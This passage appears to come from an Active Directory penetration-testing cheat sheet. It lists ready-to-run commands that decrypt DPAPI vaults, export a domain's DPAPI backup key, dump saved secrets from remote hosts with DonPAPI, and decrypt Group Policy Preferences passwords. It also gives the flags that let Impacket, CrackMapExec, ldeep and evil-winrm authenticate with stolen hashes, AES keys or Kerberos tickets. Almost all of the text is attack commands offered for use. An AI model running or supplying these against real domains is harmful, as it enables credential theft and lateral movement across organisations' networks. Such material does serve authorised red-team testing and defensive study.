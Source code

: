 #### Credentials Vault & DPAPI

Decipher Vault with Master Key

```bash
dpapi.py vault -vcrd <vault_file> -vpol <vault_policy_file> -key <master_key>
```

Dump all secrets on a remote machine

```bash
DonPAPI.py domain.local/user1:password@<target>
```

Extract the domain backup key with a Domain Admin

```bash
dpapi.py backupkeys --export -t domain.local/user1:password@<DC_IP>
```

Dump all user secrets with the backup key

```bash
DonPAPI.py -pvk domain_backupkey.pvk domain.local/user1:password@<targets>
```

#### GPPPassword

Find and decrypt Group Policy Preferences passwords.

```bash
Get-GPPPassword.py domain.local/user1:password@<target>

#Specific share
Get-GPPPassword.py -share <share> domain.local/user1:password@<target>
```

### Pass The Hash

Globally, all the **Impacket** tools and the ones that use the library can authenticate via Pass The Hash with the `-hashes` command line parameter instead of specifying the password.
For **ldeep**, **CrackMapExec** and **evil-winrm**, it's `-H`.

### Over Pass The Hash / Pass The Key

Globally, all the **Impacket** tools and the ones that use the library can authenticate via Pass The Key with the `-aesKey` command line parameter instead of specifying the password.
For **CrackMapExec** it's `--aesKey`.

### Kerberos authentication

Load a kerberos ticket in `.ccache` format : `export KRB5CCNAME=./ticket.ccache`

Globally, all the **Impacket** tools and the ones that use the library can authenticate via Kerberos with the `-k -no-pass` command line parameter instead of specifying the password.
For **ldeep** and **CrackMapExec** it's `-k`.
For **evil-winrm** it's `-r <domain> --spn <SPN_prefix>` (default 'HTTP'). The realm must be specified in the file `/etc/krb5.conf` using this format -> `CONTOSO.COM = { kdc = fooserver.contoso.com }`
